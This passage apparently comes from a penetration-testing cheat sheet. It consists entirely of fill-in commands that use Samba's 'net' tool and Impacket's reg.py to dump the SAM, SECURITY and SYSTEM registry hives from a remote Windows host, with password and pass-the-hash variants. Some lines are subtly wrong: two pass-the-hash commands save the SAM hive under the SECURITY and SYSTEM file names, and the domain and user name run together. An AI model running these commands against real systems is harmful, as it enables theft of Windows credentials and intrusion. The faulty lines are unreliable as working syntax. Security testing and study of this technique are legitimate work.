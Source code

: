 ##### 1.3.1.1 - `net`

```
$ export IP="<target_IP>"
export PROTOCOL="<ads | rpc>"
export USERNAME="<username>"
export PASSWORD="<password>"
export DOMAIN="<DOMAIN>"
net $PROTOCOL registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "$DOMAIN$USERNAME%$PASSWORD" -S $IP
net $PROTOCOL registry save "HKLM\SECURITY" "C:\Windows\Temp\SECURITY" -U "$DOMAIN$USERNAME%$PASSWORD" -S $IP
net $PROTOCOL registry save "HKLM\SYSTEM" "C:\Windows\Temp\SYSTEM" -U "$DOMAIN$USERNAME%$PASSWORD" -S $IP
```

Pass The Hash

```
$ export IP="<target_IP>"
export PROTOCOL="<ads | rpc>"
export USERNAME="<username>"
export NT_HASH="<nt_hash>"
export DOMAIN="<DOMAIN>"
net $PROTOCOL registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "$DOMAIN$USERNAME" --pw-nt-hash $NT_HASH -S $IP
net $PROTOCOL registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "$DOMAIN$USERNAME" --pw-nt-hash $NT_HASH -S $IP
net $PROTOCOL registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "$DOMAIN$USERNAME" --pw-nt-hash $NT_HASH -S $IP
```

##### 1.3.1.2 - Impacket

```
$ export IP="<target_IP>"
export USERNAME="<username>"
export PASSWORD="<password>"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SAM" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SECURITY" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SYSTEM" -o "\\\\$IP\\c$\\windows\\temp\\"
```

Pass The Hash

```
$ export IP="<target_IP>"
export USERNAME="<username>"
export NT_HASH="<nt_hash>"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SAM" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SECURITY" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SYSTEM" -o "\\\\$IP\\c$\\windows\\temp\\"
```

#### 1.3.2 - SMB Network Protocol
